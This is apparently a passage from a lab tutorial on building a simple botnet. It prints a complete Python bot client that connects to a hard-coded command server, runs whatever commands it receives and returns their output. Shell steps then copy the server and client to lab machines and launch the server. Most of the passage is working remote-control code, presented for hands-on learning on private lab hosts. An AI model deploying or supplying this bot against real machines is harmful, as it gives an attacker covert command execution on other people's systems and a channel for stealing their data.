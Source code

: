 **message** contains the output for the command and is sent back to the server, after execution of the command we wait for another packet.  
The complete file available on [github](https://github.com/0script/simple-botnet) should look like the one below:  
```python  
import socket
import subprocess

def botclient():
    HOST = '192.168.100.152'
    PORT = 8000

    s = socket.socket()
    s.connect((HOST, PORT))

    message = 'Connection from '+socket.gethostname()
    s.send(message.encode())
    data = s.recv(1024).decode()
    
    while data != 'end':
        if (data):
            try:
                message = subprocess.run(data.split(' '), stdout=subprocess.PIPE)
                s.send(message.stdout)
            except Exception as e:
                print('Error processing'.format(data))
                print(e)
        data = s.recv(1024).decode()
    s.close()

if __name__ == '__main__':
    botclient()
```
Now it's time to execute :  
  
### execution 
To start I copy bootserver.py and commands.txt in my kali machine and then I copy the client file in my machines which will serve as bot:  
```shell  
$echo "ls -a\npwd\nwho\nuname -a\n" > commands.txt
$rsync commands.txt kali@192.168.100.152:/home/kali/hacks/simple-botnet
$rsync botserver.py kali@192.168.100.152:/home/kali/hacks/simple-botnet
$rsync botclient.py oraclevm@192.168.100.186:/home/oraclevm/oracleuser/simple-botnet/botclient.py
$rsync botclient.py ubuntu22@192.168.100.217:/home/ubuntu22/Desktop/ubuntu22
```  
I can now launch the server in my kali machine  
```shell  
$python3 botserver.py
```  

Then I run botclient.py with sleep, time for me to quickly switch tabs so that the bots connect in the same time interval.  
    ![running botclient in oraclelinux](https://preview.redd.it/rteuizlg6ti91.png?width=1024&format=png&auto=webp&s=31581961c1da8416b5c1388ba5fb141be8e96e93 "botnet on oraclevm")  
    ![running botclient in ubuntu](https://preview.redd.it/t6pkoylg6ti91.png?width=739&format=png&auto=webp&s=ce4dfb1d8bb0bacde9a6435e7f8b4093a7ce2e78 "ubuntu22")  
